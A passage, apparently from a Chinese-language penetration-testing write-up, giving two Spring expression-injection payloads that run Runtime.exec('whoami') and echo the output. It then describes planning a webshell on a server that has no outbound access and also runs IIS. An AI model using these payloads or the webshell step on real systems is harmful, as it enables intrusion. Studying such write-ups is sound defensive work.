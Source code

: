 上面的 payload 只能读取单行结果，也可以使用其他的回显方法可以读取多行结果。

```bash
${new String(@org.springframework.util.StreamUtils@copyToByteArray(@java.lang.Runtime@getRuntime().exec("whoami").getInputStream()))}
${@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())}
```

![图片](assets/1706513706-c3f3496e6a44be43975064f07490a152.png)

经过探测发现服务器不通外网，所以还是得通过写 webshell 的方式来进一步获取权限，但是 SpringBoot 应用基本不大可能能写 webshell 到应用目录进行访问。刚巧发现服务器上还运行了 IIS 服务，直接访问 URL 的一级目录就出来一个报错信息了，真是山重水复疑无路，柳暗花明又一村。

![图片](assets/1706513706-2ad139a26f021453d9a547f105a34142.png)

